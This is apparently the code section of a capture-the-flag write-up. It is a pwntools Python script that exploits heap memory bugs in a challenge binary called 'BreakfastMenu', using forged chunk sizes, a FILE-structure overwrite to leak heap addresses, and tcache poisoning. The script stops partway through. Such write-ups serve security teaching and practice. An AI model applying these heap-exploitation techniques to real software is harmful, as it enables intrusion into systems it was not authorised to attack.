 ## Exploit code:
The Exploit code is below.
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './BreakfastMenu'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "breakfast.sdc.tf"
  PORT = 1337
  s = remote(HOST, PORT)
  heap_offset = 0x2300
else:
  s = process(BINARY)
  heap_offset = 0x1700
libc = elf.libc

def Create():
  s.sendlineafter("leave\n", "1")

def Edit(idx, data):
  s.sendlineafter("leave\n", "2")
  s.sendlineafter("modify\n", str(idx))
  s.sendlineafter("order?\n", data)

def Delete(idx):
  s.sendlineafter("leave\n", "3")
  s.sendlineafter("remove\n", str(idx))

for i in range(6):
  Create()

# Make fake chunk sizeof 0x3c0 for heap leaking
Delete(4)
Delete(5)
Edit(5, "\x00")
Create()
Create()
Edit(2, "A"*0x18+p64(0x3c1))

# Heap leak
Delete(7)
Edit(-12, p32(0xfbad3a87)+"\x01"*0x1b)

s.recvuntil("\x00"*0x20)
heap_leak = u64(s.recv(8))
heap_base = heap_leak - heap_offset
print "heap_leak =", hex(heap_leak)
print "heap_base =", hex(heap_base)

# Make large chunk in tcache
Delete(0)
Delete(1)
Edit(1, p64(heap_base + 0x210))
Create()
Create()
Edit(9, "A"*8+p64(heap_offset - 0x300 + 0x61))

Delete(0)
```